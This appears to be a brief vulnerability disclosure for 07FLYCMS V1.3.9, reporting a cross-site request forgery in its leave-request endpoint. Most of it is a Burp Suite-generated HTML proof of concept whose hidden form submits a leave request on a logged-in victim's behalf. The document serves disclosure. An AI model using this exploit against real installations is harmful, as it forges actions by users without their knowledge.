 target:https://github.com/lingqifei/07fly-crm version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component http://erp.07fly.net:80/oa/OaLeave/add.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaLeave/add.html" method="POST">
      <input type="hidden" name="type" value="1" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A06%3A00" />
<input type="hidden" name="end_time" value="" />
<input type="hidden" name="reason" value="cs" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
